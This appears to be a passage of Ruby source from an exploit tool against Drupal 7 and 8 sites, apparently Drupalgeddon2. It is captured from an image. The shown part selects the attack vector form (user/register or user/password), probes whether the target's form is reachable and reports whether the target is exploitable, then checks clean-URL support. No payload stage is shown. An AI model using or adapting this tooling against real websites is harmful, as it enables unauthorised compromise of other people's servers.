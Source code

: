 ```ruby




# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -



# The attack vector to use
$form = $drupalverion.start_with?("8")? "user/register" : "user/password" # NOTE 4: In the code, if it has Drupal v8.x, we either need to register first or have a rogue account.

# Make a request, check for form
url = "#{$target}?q=#{$form}"
puts action("Testing: Form   (#{$form})")
response = http_request(url, 'get', '', $session_cookie)
if response.code == "200" and not response.body.empty?
  puts success("Result : Form valid")
elsif response['location']
  puts error("Target is NOT exploitable [5] (HTTP Response: #{response.code})...   Could try following the redirect: #{response['location']}")
  exit
elsif response.code == "404"
  puts error("Target is NOT exploitable [4] (HTTP Response: #{response.code})...   Form disabled?")
  exit
elsif response.code == "403"
  puts error("Target is NOT exploitable [3] (HTTP Response: #{response.code})...   Form blocked?")
  exit
elsif response.body.empty?
  puts error("Target is NOT exploitable [2] (HTTP Response: #{response.code})...   Got an empty response")
  exit
else
  puts warning("WARNING: Target may NOT exploitable [1] (HTTP Response: #{response.code})")
end


puts "- "*40


# Make a request, check for clean URLs status ~ Enabled: /user/register   Disabled: /?q=user/register
# Drupal v7.x needs it anyway
$clean_url = $drupalverion.start_with?("8")? "" : "?q=" # Note 5: If the 
url = "#{$target}#{$form}"

puts action("Testing: Clean URLs")
response = http_request(url, 'get', '', $session_cookie)
if response.code == "200" and not response.body.empty?
  puts success("Result : Clean URLs enabled")
else
  $clean_url = "?q="
  puts warning("Result : Clean URLs disabled (HTTP Response: #{response.code})")
  puts verbose("response.body: #{response.body}") if $verbose

  # Drupal v8.x needs it to be enabled
  if $drupalverion.start_with?("8")
    puts error("Sorry dave... Required for Drupal v8.x... So... NOPE NOPE NOPE")
    exit
  elsif $drupalverion.start_with?("7")
    puts info("Isn't an issue for Drupal v7.x")
  end
end
```